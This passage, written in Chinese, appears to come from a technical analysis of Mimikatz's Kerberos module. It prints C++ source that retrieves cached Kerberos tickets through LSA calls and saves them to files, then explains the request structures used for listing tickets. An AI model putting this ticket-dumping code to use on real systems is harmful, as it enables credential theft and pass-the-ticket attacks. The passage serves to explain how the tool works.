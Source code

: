 ```cpp
                        status = LsaCallKerberosPackage(pKerbRetrieveRequest, szData, (PVOID*)&pKerbRetrieveResponse, &szData, &packageStatus);
                        if (NT_SUCCESS(status))
                        {
                            if (NT_SUCCESS(packageStatus))
                            {
                                if (filename = kuhl_m_kerberos_generateFileName(i, &pKerbCacheResponse->Tickets[i], MIMIKATZ_KERBEROS_EXT))
                                {
                                    if (kull_m_file_writeData(filename, pKerbRetrieveResponse->Ticket.EncodedTicket, pKerbRetrieveResponse->Ticket.EncodedTicketSize))
                                        kprintf(L"\n   * Saved to file     : %s", filename);
                                    else PRINT_ERROR_AUTO(L"kull_m_file_writeData");
                                    LocalFree(filename);
                                }
                                LsaFreeReturnBuffer(pKerbRetrieveResponse);
                            }
                            else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbRetrieveEncodedTicketMessage / Package : %08x\n", packageStatus);
                        }
                        else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbRetrieveEncodedTicketMessage : %08x\n", status);

                        LocalFree(pKerbRetrieveRequest);
                    }
                }
                kprintf(L"\n");
            }
            LsaFreeReturnBuffer(pKerbCacheResponse);
        }
        else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbQueryTicketCacheEx2Message / Package : %08x\n", packageStatus);
    }
    else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbQueryTicketCacheEx2Message : %08x\n", status);

    return STATUS_SUCCESS;
}
```

该函数首先声明了需要用到的结构，其中 KERB\_QUERY\_TKT\_CACHE\_REQUEST 和 KERB\_QUERY\_TKT\_CACHE\_EX\_RESPONSE 用于列出缓存的票据。KERB\_RETRIEVE\_TKT\_REQUEST 和 KERB\_RETRIEVE\_TKT\_RESPONSE 用于票据的转储。

List All Tickets
----------------

如果只是列出当前用户缓存的票据，则先通过 KerbQueryTicketCacheExMessage 消息构造 KERB\_QUERY\_TKT\_CACHE\_REQUEST 结构，用于查询票证缓存的信息，如下所示。

```cpp
KERB_QUERY_TKT_CACHE_REQUEST kerbCacheRequest = { KerbQueryTicketCacheExMessage, {0, 0} };
```
